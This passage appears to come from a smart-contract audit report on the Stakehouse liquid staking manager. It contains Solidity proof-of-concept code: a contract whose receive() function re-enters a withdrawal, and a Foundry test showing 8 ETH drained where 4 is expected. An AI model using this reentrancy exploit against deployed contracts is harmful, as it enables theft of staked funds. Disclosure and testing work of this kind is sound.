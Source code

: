 ```solidity
        signature[0] = "signature1";
        signature[1] = "signature2";

        IManager(_manager).registerBLSPublicKeys{value: 8 ether}(
            publicKeys,
            signature,
            address(this)
        );

        manager = _manager;

    }

    function withdraw(bytes calldata _blsPublicKeyOfKnot) external {
        IManager(manager).withdrawETHForKnot(address(this), _blsPublicKeyOfKnot);
    }

    receive() external payable {
        if(!state) {
            state = true;
            this.withdraw("publicKeys1");
        }
    }

}
```

there is a restriction in this reentrancy attack, the msg.sender needs to be the same recipient when calling withdrawETHForKnot.

We add the test case.

https://github.com/code-423n4/2022-11-stakehouse/blob/4b6828e9c807f2f7c569e6d721ca1289f7cf7112/test/foundry/LiquidStakingManager.t.sol#L35

```solidity
function testBypassIsContractCheck_POC() public {

	NonEOARepresentative pass = new NonEOARepresentative{value: 8 ether}(address(manager));
	address wallet = manager.smartWalletOfNodeRunner(address(pass));
	address reprenstative = manager.smartWalletRepresentative(wallet);
	console.log("smart contract registered as a EOA representative");
	console.log(address(reprenstative) == address(pass));

	// to set the public key state to IDataStructures.LifecycleStatus.INITIALS_REGISTERED
	MockAccountManager(factory.accountMan()).setLifecycleStatus("publicKeys1", 1);

	// expected to withdraw 4 ETHER, but reentrancy allows withdrawing 8 ETHER
	pass.withdraw("publicKeys1");
	console.log("balance after the withdraw, expected 4 ETH, but has 8 ETH");
	console.log(address(pass).balance);

}
```
